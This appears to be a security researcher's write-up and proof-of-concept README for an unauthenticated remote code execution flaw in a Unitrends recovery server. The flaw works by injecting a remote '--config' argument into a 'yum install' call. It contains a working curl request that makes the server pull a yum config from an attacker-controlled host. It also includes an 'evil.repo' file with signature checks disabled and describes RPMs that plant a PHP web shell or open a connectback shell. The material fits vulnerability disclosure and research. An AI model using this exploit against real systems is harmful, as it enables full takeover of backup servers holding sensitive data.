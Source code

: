 The function at 0x541f0 is ```runShellCommand_32```:

```asm
[0x000541f0]> pd
	|||||||   0x000541f0      ff252a0c6f00   jmp qword [reloc.runShellCommand_32]
```

The ```cmc_updates``` command is a shell script (```/usr/bp/bin/cmc_updates```) that calls ```yum``` with the given parameters:

```shell
...

# now install any others
if (length $escaped_string_others) {
	cleanAllPackages($statusfile);
	system("yum -y -d 0 install $escaped_string_others >>$statusfile 2>&1");
	$ret = $ret || ($? >> 8);
}

...
```

The ```yum``` command has a ```--config``` argument, which is used to set the path to a ```yum``` configuration file. This path does not have to be a local path, but can be an ```http://```, or an ```ftp://``` link too. This makes it possible for an unauthenticated attacker to create a ```yum``` config file that points to a repository he controls, and install anything from that repo with a ```HTTP GET``` request similar to this:

```
[0x00 poc]$ curl 'http://192.168.56.100/recoveryconsole/bpl/updates.php?type=update&sid=0&names=--config=http://192.168.56.1:8080/yum.conf,package-name-we-want-to-install' -s -o /dev/null
```

This obviously means that an attacker can install anything she wants, but direct code execution is also possible using install scripts in the RPM files. I've created a proof-of-concept RPM file that puts a PHP shell in the webroot, and another, that starts a connectback shell using pre-install (%pre) scripts.

The PoC exploit
---------------

### Exploit contents

The ```poc``` directory contains everything that is needed to exploit this vulnerability. It is important, that the PoC assumes that the Unitrends server can access an attacker-controlled server with an IP address of ```192.168.56.1``` on port ```8080```. This IP address and port can be altered by modifying the ```baseurl``` parameter in the
```evil.repo``` config file.

```ini
[evilrepo]
name=Evil Repository
baseurl=http://192.168.56.1:8080/
enabled=1
gpgcheck=0
```

